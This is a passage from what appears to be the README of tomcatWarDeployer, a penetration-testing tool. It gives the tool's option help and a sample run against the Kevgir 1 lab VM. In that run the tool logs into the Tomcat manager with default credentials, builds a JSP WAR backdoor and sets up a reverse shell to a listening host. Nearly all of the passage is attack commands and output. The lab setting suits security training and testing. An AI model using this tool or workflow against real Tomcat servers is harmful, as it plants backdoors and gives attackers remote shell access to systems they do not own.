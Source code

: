 ```
    -p PORT, --port=PORT
                        Remote port for the reverse tcp payload when used with
                        RHOST or Local port if no RHOST specified thus acting
                        as a Bind shell endpoint.
    -u URL, --url=URL   Apache Tomcat management console URL. Default:
                        /manager/
    -t TIMEOUT, --timeout=TIMEOUT
                        Speciifed timeout parameter for socket object and
                        other timing holdups. Default: 10

  Payload options:
    -R APPNAME, --remove=APPNAME
                        Remove deployed app with specified name. Can be used
                        for post-assessment cleaning
    -X PASSWORD, --shellpass=PASSWORD
                        Specifies authentication password for uploaded shell,
                        to prevent unauthenticated usage. Default: randomly
                        generated. Specify "None" to leave the shell
                        unauthenticated.
    -T TITLE, --title=TITLE
                        Specifies head>title for uploaded JSP WAR payload.
                        Default: "JSP Application"
    -n APPNAME, --name=APPNAME
                        Specifies JSP application name. Default: "jsp_app"
    -x, --unload        Unload existing JSP Application with the same name.
                        Default: no.
    -C, --noconnect     Do not connect to the spawned shell immediately. By
                        default this program will connect to the spawned
                        shell, specifying this option let's you use other
                        handlers like Metasploit, NetCat and so on.
    -f WARFILE, --file=WARFILE
                        Custom WAR file to deploy. By default the script will
                        generate own WAR file on-the-fly.
```


And sample usage on [Kevgir 1 VM by canyoupwn.me](https://www.vulnhub.com/entry/kevgir-1,137/) running at 192.168.56.100:8080 :


```
user$ python tomcatWarDeployer.py -v -x -p 4449 -H 192.168.56.102 192.168.56.100:8080

    tomcatWarDeployer (v. 0.3)
    Apache Tomcat 6/7 auto WAR deployment & launching tool
    Mariusz Banach / MGeeky '16

Penetration Testing utility aiming at presenting danger of leaving Tomcat misconfigured.
    
INFO: Reverse shell will connect to: 192.168.56.102:4449.
DEBUG: Browsing to "http://192.168.56.100:8080/manager/"... Creds: tomcat:tomcat
DEBUG: Apache Tomcat Manager Application reached & validated.
DEBUG: Generating JSP WAR backdoor code...
DEBUG: Preparing additional code for Reverse TCP shell
DEBUG: Generating temporary structure for jsp_app WAR at: "/tmp/tmpDhzo9I"
DEBUG: Working with Java at version: 1.8.0_60
DEBUG: Generating web.xml with servlet-name: "JSP Application"
DEBUG: Generating WAR file at: "/tmp/jsp_app.war"
DEBUG: added manifest
adding: files/(in = 0) (out= 0)(stored 0%)
adding: files/WEB-INF/(in = 0) (out= 0)(stored 0%)
adding: files/WEB-INF/web.xml(in = 547) (out= 253)(deflated 53%)
adding: files/META-INF/(in = 0) (out= 0)(stored 0%)
adding: files/META-INF/MANIFEST.MF(in = 68) (out= 67)(deflated 1%)
adding: index.jsp(in = 4684) (out= 1595)(deflated 65%)
```